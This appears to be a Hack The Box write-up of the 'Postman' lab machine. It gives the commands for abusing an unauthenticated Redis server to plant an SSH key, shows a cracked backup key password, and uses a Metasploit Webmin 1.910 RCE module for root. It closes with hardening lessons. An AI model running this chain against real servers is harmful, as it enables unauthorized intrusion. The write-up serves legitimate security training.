 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png
coverY: 0
---
```


# 🧠 Real-World Security Lessons from HTB’s Postman: Misconfig to Root📮

<div data-full-width="true"><figure><img src="../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png" alt=""><figcaption></figcaption></figure></div>

### 💡 Summary

Postman (Linux, Easy) brings together two beautiful classics: an unauthenticated Redis server and a Webmin 1.910 instance vulnerable to command injection. Add a dash of SSH key juggling, and we’ve got a shell delivery system.

### 🔍 Enumeration

#### ⚙️ Full Port Scan

```
nmap -n -p- -vvv --reason -oN nmap/01-full-port-scan.txt -iL target.txt
```

**Open Ports**

* 22 – SSH
* 80 – Apache 2.4.29
  *

      <figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
* 6379 – Redis 4.0.9 (no auth)
* 10000 – MiniServ 1.910 (Webmin)



#### 🧠 Service Enumeration

```
nmap -sC -A -O -sV -oN nmap/03-detail-scan.txt -p22,80,6379,10000 -iL target.txt
```

Discovered:

* **Webmin** running on MiniServ 1.910
* **Redis** unauthenticated
* **SSH** banner suggests Ubuntu
* Apache server hosting a personal website

🔎 Googled the following:

* Redis 4.0.9 RCE possibilities&#x20;
  * [link](https://d4luc1.medium.com/unauthenticated-redis-server-leads-to-rce-6c175c75b293)
  * [<sub>https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419</sub>](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419)
* Webmin 1.910 exploit [Exploit-DB 46984](https://www.exploit-db.com/exploits/46984)



### 🛠️ Exploitation: Redis to Shell

**Generate SSH Key**

```
ssh-keygen -f postman
```

**Check for writable `.ssh` directory in Redis**

```
redis-cli -h 10.10.10.160
config set dir .ssh
config set dbfilename authorized_keys
```

**Inject Public Key**

```
(echo -e "\n\n"; cat postman.pub; echo -e "\n\n") > pub_key.txt
cat pub_key.txt | redis-cli -h 10.10.10.160 -x set exploit
save
```

**Login via SSH as redis**

```
ssh -i postman redis@10.10.10.160
```

### 🚪 Lateral Movement

Found `id_rsa.bak` in `/opt`:

```
scp redis@10.10.10.160:/opt/id_rsa.bak .
ssh2john id_rsa.bak > hash.john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.john
```

🎯 **Password Cracked:** `computer2008`

* i tried to ssh into the box but i was not able to as Matt
  * so changed user using the redis shell

```
su Matt
```

### 📈 Privilege Escalation – Webmin RCE

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* When i try to login into web admin panel with Matt Creds i can get in
* metasploit has a module for exploit webadmin

```
linux/http/webmin_packageup_rce
```

* webadmin is running as root and hence after exploiting it get a shell as root

### 🧠 Key Learnings from HTB Postman

1. **Default Redis Misconfiguration Can Lead to Shell Access**\
   Misconfigured Redis instances without authentication allow attackers to write files like `authorized_keys`, leading to direct system access.
2. **Exposed Private Keys Are a Critical Risk**\
   Backup or misplaced private keys (`.bak` files) can be cracked and reused for lateral movement. Regular key audits and encryption hygiene are essential.
3. **Outdated Web Interfaces Like Webmin Pose Privilege Escalation Risks**\
   Webmin v1.910 contains a known RCE vulnerability, allowing remote root access via command injection. Patch management is non-negotiable.
4. **Credential Reuse Enables Account Traversal**\
   Reusing passwords across services (e.g., Redis to Webmin) facilitated lateral movement and elevation of privileges.
5. **Misconfigurations Chain into Full Compromise**\
   No single point of failure — rather, a chain of small missteps (open Redis, leaked key, outdated Webmin) led to complete root compromise.



{% embed url="https://www.hackthebox.com/achievement/machine/409699/215" %}

